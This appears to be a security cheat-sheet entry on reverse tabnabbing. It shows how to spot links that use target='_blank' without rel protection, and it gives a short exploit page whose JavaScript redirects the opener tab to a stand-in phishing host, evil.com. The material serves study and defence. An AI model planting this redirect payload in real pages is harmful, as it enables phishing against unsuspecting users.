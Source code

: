 # Tabnabbing

## Introduction
When you open a link in a new tab ( target="_blank" ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property.

## How to find
```html
<a href="..." target="_blank" rel="" />  

<a href="..." target="_blank" />
```

## How to Exploit
1. Attacker posts a link to a website under his control that contains the following JS code:
    ```html
    <html>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://evil.com');
    if (window.parent != window) window.parent.location.replace('http://evil.com');
    </script>
    </html>
    ```
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.

## References
* [Hackerone #260278](https://hackerone.com/reports/260278)